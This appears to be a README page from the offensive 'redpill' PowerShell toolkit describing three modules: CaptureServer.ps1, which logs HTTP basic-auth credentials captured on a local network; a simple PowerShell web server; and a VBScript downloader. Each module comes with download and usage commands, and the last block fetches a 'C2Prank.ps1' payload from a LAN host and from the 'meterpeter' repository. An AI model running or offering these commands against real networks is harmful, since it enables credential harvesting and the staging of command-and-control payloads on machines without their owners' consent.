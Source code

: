 ## Module Name
   <b><i>CaptureServer.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|CaptureServer|Captute HTTP local lan data (logile)|Administrator|Administrator privileges required|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/CaptureServer.ps1" -OutFile "CaptureServer.ps1"
```

```powershell
Import-Module -Name .\CaptureServer.ps1 -Force
CaptureServer -AuthType Basic -IPAddress 192.168.1.72 -LogFilePath $Env:TMP\logfile.txt
```

<br />

## Module Name
   <b><i>Start-SimpleHTTPServer.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Start-SimpleHTTPServer|Simple HTTP pure powershell webserver|Administrator|Current directory its used as webroot|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Start-SimpleHTTPServer.ps1" -OutFile "Start-SimpleHTTPServer.ps1"
```

```powershell      
Import-Module -Name .\Start-SimpleHTTPServer.ps1 -Force
Start-SimpleHTTPServer
```   

<br />

## Module Name
   <b><i>wget.vbs</i></b>
   
|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|wget.vbs|VBScript to download files from Local Lan|User Land|can be executed using **'cscript'** or **'powershell'** interpreter|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/wget.vbs" -OutFile "wget.vbs"
```

```powershell      
cscript wget.vbs http://10.11.0.5/C2Prank.ps1 C2Prank.ps1
.\wget.vbs https://raw.githubusercontent.com/r00t-3xp10it/meterpeter/master/mimiRatz/C2Prank.ps1 C2Prank.ps1
```  
